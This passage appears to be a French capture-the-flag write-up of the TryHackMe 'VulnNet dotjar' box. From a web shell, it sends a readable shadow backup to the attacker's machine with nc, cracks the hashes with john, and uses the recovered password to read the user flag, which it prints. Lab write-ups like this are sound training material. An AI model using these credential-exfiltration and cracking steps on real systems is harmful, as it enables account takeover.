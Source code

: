 ```bash
-rw-r--r--  1 root root       160 Jan 15  2021 dpkg.diversions.1.gz
-rw-r--r--  1 root root       160 Jan 15  2021 dpkg.diversions.2.gz
-rw-r--r--  1 root root       160 Jan 15  2021 dpkg.diversions.3.gz
-rw-r--r--  1 root root       228 Jan 15  2021 dpkg.statoverride.0
-rw-r--r--  1 root root       179 Jan 15  2021 dpkg.statoverride.1.gz
-rw-r--r--  1 root root       179 Jan 15  2021 dpkg.statoverride.2.gz
-rw-r--r--  1 root root       179 Jan 15  2021 dpkg.statoverride.3.gz
-rw-r--r--  1 root root   1383027 Feb  2  2021 dpkg.status.0
-rw-r--r--  1 root root    373294 Jan 31  2021 dpkg.status.1.gz
-rw-r--r--  1 root root    375385 Jan 15  2021 dpkg.status.2.gz
-rw-r--r--  1 root root    366250 Jan 15  2021 dpkg.status.3.gz
-rw-------  1 root root       857 Jan 15  2021 group.bak
-rw-------  1 root shadow     711 Jan 15  2021 gshadow.bak
-rw-------  1 root root      1745 Jan 15  2021 passwd.bak
-rw-r--r--  1 root root       485 Jan 16  2021 shadow-backup-alt.gz
-rw-------  1 root shadow    1179 Jan 16  2021 shadow.bak

```

On a un shell avec les droits web.  
On trouve un backup des fichiers passwd dans /var/backups.
On peut lire le fichier shadow-backup-alt.gz.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lp 1337 > shadow.gz
web@vulnnet-dotjar:/var/backups$ nc 10.9.228.66 < ./shadow-backup-alt.gz
nc 10.9.228.66 < ./shadow-backup-alt.gz
```

On transfert le fichier.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gunzip shadow.gz 
tim@kali:~/Bureau/tryhackme/write-up$ john -w=/usr/share/wordlists/rockyou.txt  shadow 
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
794613852        (jdk-admin)
1g 0:00:02:23 2,72% (ETA: 19:56:51) 0.006978g/s 3165p/s 6520c/s 6520C/s 0000tb..zalasar
Use the "--show" option to display all of the cracked passwords reliably
```

On décompresse le fichier et on casse les mots de passes.  
On trouve un mot de passe pour jdk-admin qui est 794613852.  

**What is the user flag? (user.txt)**

```bash
su jdk-admin
Password: 794613852

jdk-admin@vulnnet-dotjar:/var/backups$ cd ~
cd ~
jdk-admin@vulnnet-dotjar:~$ cat user.txt
cat user.txt
THM{1ae87fa6ec2cd9f840c68cbad78e9351}
```
